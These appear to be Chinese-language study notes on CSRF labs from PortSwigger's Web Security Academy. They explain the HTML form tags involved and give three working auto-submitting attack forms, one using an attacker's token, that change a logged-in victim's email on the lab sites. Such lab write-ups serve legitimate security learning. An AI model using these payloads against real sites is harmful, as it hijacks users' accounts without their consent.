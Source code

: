 需要创造一个连接用来伪造危险网站，用户在进入这个的时候要是登录的目标网站，就会发送请求并携带相关的cookie

> **&lt; from &gt;**​****标签是通过用户填写数据，通过提交按钮将数据发送到服务器，这个用POST请求发送请求到****​**action**的网站
>
> * `GET`：将数据附加到URL，适用于获取数据的请求（如搜索）
> * `POST`：将数据放在请求体中，适用于提交数据的请求（如用户登录、文件上传）
>
>  **&lt; input &gt;**​****标签是输入数据，然后被隐藏起来，名称是email，直接赋值****​**value**的值
>
>  **&lt; script &gt;** 标签 **document.forms[0].submit();** 是自动提交页面上的第一个表单（**forms[0]** ）无需用户交互

#### 实验：CSRF的中令牌验证取决于请求方法

在burp中测试，发现get请求也可以修改邮箱，

![](https://pic.imgdb.cn/item/671a3a51d29ded1a8c0e6555.png)

接着测试去掉csrf令牌，发现也可以修改，那只要用户登录的时候点击一个发送get请求的链接就可以修改邮箱

```html
<form method="GET"action="https://0a68004303a5205381c0cf92000a0043.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="marin@email">
</form>

<script>
        document.forms[0].submit();
</script>
```

我以为只要修改action中的后面的问号才行，结构GET会自动将表单数据附加到URL中，形成查询字符串类似`?email=marin@email`

#### 实验：CSRF的令牌验证取决于令牌是否存在

蚌，那和最开始的一样（

```html
<form method="POST"action="https://0a3000f204c8a1a782edbbf9009a00a8.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="marin@email">
</form>

<script>
        document.forms[0].submit();
</script>
```

#### 实验：令牌与用户会话无关的 CSRF

就是这个应用只验证csrf令牌，不会验证是否是同一个会话，也就是cookie不检测

csrf令牌是使用一次就会重新生成，那我们拿攻击者的csrf

这个过程就是，我们先登录攻击者的账户，获取到攻击者的csrf值，将这个值用在这个请求中，然后受害者登录，打开这个网页，就会发送这个更改的请求，同时因为只检测csrf令牌，通过了之后就会修改受害者的邮箱

```html
<form method="POST"action="https://0a9d00b604ce92e680222bca00090048.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="marin@email">
	<input type='hidden' name="csrf"  value="1NtpBVEwUhUFQ2RmxwUnq67RU4pwQQGV"> 
</form>

<script>
        document.forms[0].submit();
</script>
```
